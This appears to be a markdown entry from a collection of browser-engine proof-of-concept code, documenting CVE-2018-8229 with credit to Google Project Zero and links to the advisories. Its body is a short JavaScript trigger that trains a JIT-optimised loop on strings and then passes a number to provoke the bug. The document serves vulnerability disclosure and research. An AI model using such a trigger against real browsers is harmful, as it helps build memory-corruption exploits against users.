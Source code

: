 # CVE-2018-8229

- Fix: July 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(str) {
    for (let i = 0; i < 200; i++) {
        let tmp = str.charCodeAt('AAAAAAAAAA' + str + 'BBBBBBBBBB');
    }
}

opt('x');
opt(0x1234);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8229)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1560)
